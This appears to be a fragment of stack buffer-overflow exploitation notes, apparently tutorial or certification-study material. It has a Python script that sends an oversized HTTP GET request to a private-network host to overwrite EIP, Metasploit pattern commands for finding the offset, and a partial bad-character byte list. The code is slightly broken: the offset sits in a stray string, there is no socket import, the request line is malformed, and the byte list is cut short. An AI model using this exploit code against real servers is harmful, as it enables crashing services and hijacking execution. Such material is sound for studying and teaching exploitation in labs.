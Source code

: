 ```
"""

# offset
2499

"""
host = "192.168.224.10"
port = 80


def send_exploit_request():
    size = 6000
    buffer  = b"A"*offset


    #HTTP Request
    request = b"GET /" + buffer + b"HTTP/1.1" + b"\r\n"
    request += b"Host: " + host.encode() + b"\r\n"
    request += b"User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:31.0) Gecko/20100101 Firefox/31.0 Iceweasel/31.8.0" + b"\r\n"
    request += b"Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8" + b"\r\n"
    request += b"Accept-Language: en-US,en;q=0.5" + b"\r\n"
    request += b"Accept-Encoding: gzip, deflate" + b"\r\n"
    request += b"Connection: keep-alive" + b"\r\n\r\n"
 
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((host,port))
    s.send(request)
    s.close()

if __name__ == "__main__": 

    send_exploit_request()
```

## Find Offset

For finding the offset where the `EIP` get overwrited.
- Create Unique pattern:
```
msf-pattern_create -l size
```
- Find the offset match of the pattern

```
msf-pattern_offset -l size -q value
```

## Detect BadChars

```
badchars = (
b"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
b"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
b"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
b"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
b"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
b"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
```